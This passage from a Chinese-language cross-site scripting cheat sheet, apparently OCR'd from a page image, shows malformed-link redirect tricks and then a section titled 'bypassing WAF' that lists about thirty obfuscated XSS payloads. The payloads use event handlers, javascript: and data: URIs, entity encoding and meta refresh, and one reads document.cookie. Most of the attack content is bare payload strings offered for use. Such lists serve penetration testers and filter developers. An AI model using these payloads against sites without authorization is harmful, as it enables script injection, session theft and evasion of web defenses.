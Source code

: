 	```html
	<A HREF="//google">XSS</A>
	```

	- Google的`feeling lucky`功能2 `这使用了一个仅在FireFox上有效的小技巧，因为它实现了"feelinglucky"功能。不像下面一个例子，这个在Opera上无效因为Opera会认为只是一个老式的HTTP基础认证钓鱼攻击，但它并不是。它只是一个畸形的URL。如果你点击了对话框的确定，它就可以生效。但是在Opera上会是一个错误对话框，所以认为其不被Opera所支持，同样在Firefox2.0后不再有效`

	```html
	<A HREF="http://ha.ckers.org@google">XSS</A>
	```

	- Google的`feeling lucky`功能3 `这是一个畸形的URL只在FireFox和Opera下有效，因为它们实现了"feeling lucky"功能。像上面的例子一样，它要求你的攻击页面在Google上特定关键词排名第一（在这个示例里关键词是"google"）`

	```html
	<A HREF="http://google:ha.ckers.org">XSS</A>
	```

	- 绝对DNS名称后额外的点

	```html
	<A HREF="http://www.google.com./">XSS</A>
	```

	- JavaScriptlink location

	```html
	<A HREF="javascript:document.location='http://www.google.com/'">XSS</A>
	```

# 0x03 绕过WAF

## 绕过WAF可用字符串

```html
<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">
<Video> <source onerror = "javascript: alert (XSS)">
<Input value = "XSS" type = text>
<applet code="javascript:confirm(document.cookie);">
<isindex x="javascript:" onmouseover="alert(XSS)">
"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
"><img src="x:x" onerror="alert(XSS)">
"><iframe src="javascript:alert(XSS)">
<object data="javascript:alert(XSS)">
<isindex type=image src=1 onerror=alert(XSS)>
<img src=x:alert(alt) onerror=eval(src) alt=0>
<img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>
<iframe/src="data:text/html,<svg onload=alert(1)>">
<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script
<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">
<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
<form><a href="javascript:\u0061lert(1)">X
</script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>
<style>//*{x:expression(alert(/xss/))}//<style></style>
On Mouse Over​
<img src="/" =_=" title="onerror='prompt(1)'">
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe
<script x> alert(1) </script 1=2
<form><button formaction=javascript&colon;alert(1)>CLICKME
<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
```
